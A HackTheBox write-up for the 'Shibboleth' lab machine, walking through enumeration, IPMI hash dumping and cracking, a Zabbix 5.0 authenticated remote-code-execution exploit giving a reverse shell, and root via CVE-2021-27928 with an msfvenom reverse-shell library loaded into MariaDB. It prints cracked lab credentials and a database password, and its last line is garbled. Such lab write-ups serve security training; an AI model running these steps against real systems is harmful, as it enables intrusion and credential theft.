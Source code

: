 ```yaml
---
title: Shibboleth - Medium HTB
date: 2024-01-26 10:11:53 +/-0800
categories: [writeup, hackthebox]
writeup: :title
permalink: /shibboleth
tags: [Zabbix, CVE, MYSQL]     # TAG names should always be lowercase
---
```


# Shibboleth

![Untitled](assets/Shibboleth/LOGO.png)

## **Scanning :**

Lets begin with a nmap to see what ports is opens on the target system : 

```python
> nmap -sS -sV -sC -T4 10.10.11.124 -Pn

#output
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://shibboleth.htb/
Service Info: Host: shibboleth.htb
```

Add the machine hostname to your `/etc/hosts` file: 

```bash
echo "10.10.11.124 shibboleth.htb" >> /etc/hosts
```

## **Enumerate the web service :**

use whatweb to see the technologie used by the web site : 

```bash
> whatweb -a 3 shibboleth.htb

#output 
http://shibboleth.htb [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[contact@example.com,info@example.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.124], Lightbox, PoweredBy[enterprise], Script, Title[FlexStart Bootstrap Template - Index]
```

Lets lauch a gobuster bf to enumerate the web page :

```bash
> gobuster dir -u http://shibboleth.htb/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t50

#output
/assets               (Status: 301) [Size: 317] [--> http://shibboleth.htb/assets/]
/forms                (Status: 301) [Size: 316] [--> http://shibboleth.htb/forms/]
/server-status        (Status: 403) [Size: 279]
```

we found nothing interesting so we can try to bf the vhosts to find another web service.

Enumerate the vhost with fuff : 

```bash
> ffuf -u http://shibboleth.htb/ -H "Host: FUZZ.shibboleth.htb" -w /usr/share/seclists/Discovery/DNS/namelist.txt -fw 18

#output 
[Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 290ms]
    * FUZZ: monitoring

[Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 292ms]
    * FUZZ: monitor

[Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 46ms]
    * FUZZ: zabbix
```

all vhosts redirect to the same page so you can add just one of the 3 to your/etc/hosts, and one comes across a login page of the zabbix software which is a monitoring software for computer park: 

![Untitled](assets/Shibboleth/login.png)

## **Enumerate and exploit zabbix :**

first I want to find the version of zabbix, I find on github repo with tools:

[GitHub - freeworkaz/zabbix_test: this is some scripts for pentesting zabbix server](https://github.com/freeworkaz/zabbix_test)

You must use the zabbix_version_detect.py script here the code after midification:

```python
"""
This script is for testing zabbix version
by version of the docs on the logon page
"""

import urllib2  
import re
from bs4 import BeautifulSoup  

zab_page='http://monitor.shibboleth.htb/index.php' 
page=urllib2.urlopen(zab_page)
soup = BeautifulSoup(page, 'html.parser')
for link in soup.findAll('a', attrs={'href': re.compile("documentation")}):
    version=link.get('href')

parts=re.split('/', version)

a=''.join (parts[4:5])
print "zabbix version is",a
```

run it see the version : 

```python
> python2 zabbix_version_detect.py 
zabbix version is 5.0
```

Lets rescan the target but that time with a udp scan : 

```python
> nmap -sU -T4 -Pn 10.10.11.124 -n --max-retries 1

623/udp open  asf-rmcp
```

after looking for information on port 623 I came across the [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi) page that my well informed on the subject.

Lets see the version of IPMI : 

```python
> nmap -sU --script ipmi-version -p 623 10.10.11.124

623/udp open  asf-rmcp
| ipmi-version: 
|   Version: 
|     IPMI-2.0
|   UserAuth: password, md5, md2, null
|   PassAuth: auth_msg, auth_user, non_null_user
|_  Level: 1.5, 2.0
```

lets dump the admin hash with [ipmipwner](https://github.com/c0rnf13ld/ipmiPwner) : 

```python
> git clone https://github.com/c0rnf13ld/ipmiPwner

#install requirements : 
> ./requirements.sh

#dump admin hash
>./ipmipwner.py --host 10.10.11.124

[*] Checking if port 623 for host 10.10.11.124 is active
[*] Using the list of users that the script has by default
[*] Brute Forcing
[*] Number of retries: 2
[*] The username: Administrator is valid                                                                                    
[*] The hash for user: Administrator
   \_ $rakp$a4a3a2a002030000ebc053f6d5ef225d169dc8006bde6c16e8e71d82f8ff1cd441422c4f763f3348a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72$a8e600ba41d6a1e70d9636a223af3374fb287b7b
```

Use john to crack the hash : 

```python
> john zabbix_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (RAKP, IPMI 2.0 RAKP (RMCP+) [HMAC-SHA1 128/128 SSE2 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepumkinpie1  (?)     
1g 0:00:00:01 DONE (2023-12-24 11:30) 0.7462g/s 5526Kp/s 5526Kc/s 5526KC/s iluve.p..ilovejesus789
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

And connect your self on the app : 

![Untitled](assets/Shibboleth/pannel_admin.png)

the next step is too gain reverse shell, I found a exploit who do that : 

https://www.exploit-db.com/exploits/50816

Downlaod it with searchsploit : `searchsploit -m 50816.py`

Run it and gain your reverse shell : 

```python
#run listener : 
> pwncat-cs :9001

#run the exploit you should by patient...
> python 50816.py http://monitor.shibboleth.htb/ "Administrator" "ilovepumkinpie1" 10.10.16.9 9001

[*] this exploit is tested against Zabbix 5.0.17 only
[*] can reach the author @ https://hussienmisbah.github.io/                                                                                                                                                                                 
[+] the payload has been Uploaded Successfully                                                                                                                                                                                              
[+] you should find it at http://monitor.shibboleth.htb//items.php?form=update&hostid=10084&itemid=33618                                                                                                                                    
[+] set the listener at 9002 please...                                                                                                                                                                                                      
[?] note : it takes up to +1 min so be patient :)                                                                                                                                                                                           
[+] got a shell ? [y]es/[N]o: y                                                                                                                                                                                                             
Nice !
```

You can can move lateraly on the user ipmi-svc, for that re use the password of the administrator hash. 

## **Privileges Escalation Exploit mysql CVE:**

After lot of enumeration we found the password of the db stored in the `/etc/zabbix/zabbix_server.conf`

```python
### Option: DBUser
#       Database user.
#
# Mandatory: no
# Default:
# DBUser=

DBUser=zabbix

### Option: DBPassword
#       Database password.
#       Comment this line if no password is used.
#
# Mandatory: no
# Default:
DBPassword=bloooarskybluh
```

log your self on the db and start the enumeration : 

```python
#view the version of mysql
select version();
```

if we look for a known vuln on the internet there is a way to increase our privileges from mysql.

[GitHub - Al1ex/CVE-2021-27928: CVE-2021-27928 MariaDB/MySQL-'wsrep provider' 命令注入漏洞](https://github.com/Al1ex/CVE-2021-27928)

So step 1 on create the payload and start listener : 

```python
> msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.9 LPORT=1234 -f elf-so -o CVE-2021-27928.so

> nc -lnvp 1234
```

Now upload it with your pwncat session : 

```python
> upload CVE-2021-27928.so
```

Final exploit the mysql db : 

```python
#mysql shell 
> SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";
```

look your listner: 

![Untitled](assets/Shibboleth/root.png)

original deaths from the beginning to the end I hope she will serve me for Zephyr ! 😁
